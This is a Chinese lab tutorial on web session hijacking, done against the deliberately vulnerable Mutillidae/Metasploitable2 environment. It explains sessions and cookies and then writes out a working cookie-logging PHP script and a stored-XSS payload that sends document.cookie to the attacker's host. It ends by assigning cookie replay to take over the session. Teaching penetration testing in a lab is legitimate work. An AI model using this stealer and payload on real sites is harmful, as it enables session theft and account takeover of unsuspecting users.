




# Web 会话劫持

## 1. 课程说明

本课程为动手实验教程，为了能说清楚实验中的一些操作会加入理论内容，也会精选最值得读的文章推荐给你，在动手实践的同时扎实理论基础。

**注意：实验用的云主机因为配置成本较高，会限制次数，每个实验不超过6次**

## 2. 学习方法

实验楼的 Kali 系列课程包含五个训练营，本训练营主要讲述 Web 应用攻击方法。课程包含20个实验，每个实验都提供详细的步骤和截图。适用于有一定 Linux 系统基础，想快速上手 Kali 渗透测试的同学。

学习方法是多实践，多提问。启动实验后按照实验步骤逐步操作，同时理解每一步的详细内容。

如果实验开始部分有推荐阅读的材料，请务必先阅读后再继续实验，理论知识是实践必要的基础。

## 3. 本节内容简介

本实验中我们初步接触 Kali Linux 和渗透测试的概念。需要依次完成下面几项任务：

- session hijacking 简介
- session 简介
- session hijacking 实战

## 4. 推荐阅读

本节实验推荐阅读下述内容：

## 5. Web 会话劫持

### 5.1 简介

web 会话挟持也就是我们常说的 session 挟持（session hijacking），或者是 cookie 挟持（cookie hijacking）。

所谓的挟持便是通过某种手段盗取你的 session id 或者利用你的 session id 以获取在未授权的情况下访问服务。

做个简单的比喻：你住在一个小区的公寓里，这是物业为我们提供的服务，你的房子有专门的钥匙，只能通过你的钥匙才能解锁进去，但是我通过某种手段窃取到了你钥匙的模型，我拿去刻了一把相同的便可进入你的房子。这就是 session hijacking。

### 5.2 session 简介

对于 web 不是太熟悉的同学会有这样的疑问，服务器与用户之间的 session 到底是什么？如何工作的呢？

HTTP 协议是一种无状态协议，这样使得我们在访问同一个网站的时候，不同页面并不会保存我们登陆状态，这样使得在这个页面我们处于登陆状态，当我们切换下一个页面时我们又没有登陆了。

为了解决这样的问题，便产生了 session 机制，在用户登陆之后会将其信息保存下来，在服务器中便存放在 session 中，在客户端浏览器中就存放在 cookie 中，这个 session 值就像我们的身份证一样，是一个唯一的值，每当我们去访问同一个网站的不同页面时，都会拿这个值去比对，以证明我们曾经来过，我们登陆过，如此我们在访问同一个网站的不同站点时便都能够显示我们登陆的状态了。

通常这个唯一的值我们称之为 session id，我们每一次请求，http 表头中都会携带 session id，服务器就以此来识别用户。

session 的诞生是用户与服务器连上的时候，但关闭浏览器或者我们退出当前登陆的用户时，亦或者默认情况下 20 分钟内没有任何的操作， session 就会被销毁。就像我们在 XSS 攻击时所利用的值，因为 DVWA 使用的是 PHP 结合 MySQL 的架构，而在 PHP 中 session 的名字叫 PHPSESSID，所以当时我们获取到的是 PHPSESSID。

在 PHP 中对于 session 是这样的一个处理过程：


（此图来自于[DoDo's Blog](http://os.51cto.com/art/201204/328888.htm)）

所以之前我们便是利用了 PHPSESSID 实现了中间人攻击，中间人攻击便是 Web session hijacking 实现的一种方式。

### 5.3 实战

此次我们将使用 mutillidae 的环境实现一次，当然第一件事我们还是启动我们环境：

在实验桌面中，双击 Xfce 终端，打开终端：


使用 `sudo virsh start Metasploitable2` 命令即可启动我们的靶机系统虚拟机：


稍等片刻，待得虚拟机完全启动之后，我们使用 `ssh msfadmin@target` 登陆靶机系统：


紧接着修改 Mutillidae 的连接数据库配置文件：

```
sudo vim /var/www/mutillidae/config.inc
```

将文本中的 `$dbname = 'metasploit';` 修改为 `$dbname = 'owasp10';` 


紧接着我们打开桌面上的 Firefox：


访问我们的靶机系统所使用的 IP 地址`192.168.122.102`：


正常的启动靶机系统之后，可以得到上述页面，选择 mutillidae，我们可以登陆到这样一个页面：


我们可以登陆一个账户若是没有账户可以直接注册：


经过简单的注册，我们可以登陆上来了：



这次我们依然是利用存储型 XSS 来帮助我们获取 cookie。

首先我们通过 `ssh root@kali` 登陆上 kali 的系统中，同时使用 `cd /var/www/html/` 进入到 Apache 的根目录中，这是为了让 mutillidae 能够访问到我们恶意的 php 代码。

然后我们在当前目录中通过 `vim getcookie.php` 来创建我们获取 cookie 的恶意文件，并在文本中输入以下内容：

```
<?php

$cookie = $_GET['remote_cookie'];
$ip = getenv ('REMOTE_ADDR');
$time=date('Y-m-d g:i:s');
$referer=getenv ('HTTP_REFERER');
$fp = fopen('cookie.txt', 'a');
fwrite($fp,"\n"." IP: " .$ip. " \n"." Date and Time: " .$time. "\n"." Referer: ".$referer."\n"." Cookie: ".$cookie."\n");
fclose($fp);
header("Location: http://192.168.122.102/mutillidae");

?>

```

我们通过 GET 的 cookie 变量来获取 cookie 值并存放在本地的 cookie 变量中，同时获取当前的访问者的 IP 地址，此时此刻的时间，还有访问的来源。

然后通过 fopen() 来创建一个 cookie.txt 的文本文件来存储获取到的值，若是该文本本来就存在就在其内容后面添加，不覆盖原本的内容。接着通过 fwrite() 函数来将我们刚刚所获取到的内容都写进去，最后关闭文件。为了不露出马脚，我们在执行完这一切之后将页面跳转至首页。

编写完成之后我们使用 `:wq` 保存并退出，紧接着我们在当前的文件夹中创建一个 cookie.txt 的文本文件，因为该目录的所属用户是 root，所以在这个 php 程序执行的时候是没有权限创建文件的，所以我们提前创建好，并使用 `chown www-data:www-data cookie.txt` 来改变该文件的所属者：


最后我们通过 `service apache2 start` 来启动 apache2，这样 php 程序才能够被访问。

做好这一切的准备工作之后，我们便可以开始攻击了。

首先我们进入实验环境：



然后我们将这样一段 javascript 代码放入 blog 的输入框中：

```
<SCRIPT>document.location='http://192.168.122.101/getcookie.php?remote_cookie='+document.cookie</SCRIPT>
```



点击 `Save Blog Entry` 之后我们会发现跳转到了 `192.168.122.102/mutillidae` 页面，说明我们已经注入成功。

同时我们可以通过 `less cookie.txt`查看 kali 主机中的存储文件：


这就是我们刚刚登陆用户的 cookie，因为我们是使用的存储型 XSS，所以当我们再次访问刚才的页面，我们依然能够收到 cookie。

窃取 cookie 是 web session hijacking 的第一步骤，第二步是利用该 cookie 进入系统改坏事。还记得 cookie_manager 如何使用吗？

## 11. 总结

本节实验中我们学习了以下内容，任何不清楚的地方欢迎到[实验楼问答](https://www.shiyanlou.com/questions)与我们交流：

- session hijacking 简介
- session 简介
- session hijacking 实战

请务必保证自己能够动手完成整个实验，只看文字很简单，真正操作的时候会遇到各种各样的问题，解决问题的过程才是收获的过程。

## 12. 作业

1. 完成剩下的中间人攻击。logout 当前用户，重启浏览器，利用 cookie_manager 切换成刚刚获取的 cookie，看是否登录用户出显示的 shiyanlou，或者你刚刚注册的用户名。